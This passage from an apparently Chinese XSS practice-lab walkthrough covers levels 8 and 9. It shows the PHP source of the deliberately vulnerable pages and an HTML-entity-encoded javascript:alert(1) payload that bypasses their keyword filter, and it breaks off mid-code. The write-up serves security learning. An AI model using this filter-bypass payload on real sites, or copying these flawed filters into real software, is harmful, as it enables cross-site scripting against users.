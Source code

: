 ```php
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
<center><img src=level8.jpg></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
</body>
</html>
```

预定义字符被转义，其他属性也不是被过滤成空字符了，那么就不能使用双写注入了。

#注入过程

我们在输入框输入的内容，会被带入到友情链接`href`属性中，那我们是不是可以直接输入`javascript:alert(1)`，点击友情链接不就可以了嘛。当我们输入后发现javascript被过滤了。只能使用HTML实体编码(即Unicode编码)绕过了。

[HTML字符实体转换，网页字符实体编码 (qqxiuzi.cn)](https://www.qqxiuzi.cn/bianma/zifushiti.php)

将`javascript:alert(1)`进行实体编码

payload：

```less
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

##### Level9

#源码

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level10.php?keyword=well done!"; 
}
</script>
<title>欢迎来到level9</title>
</head>
<body>
<h1 align=center>欢迎来到level9</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
```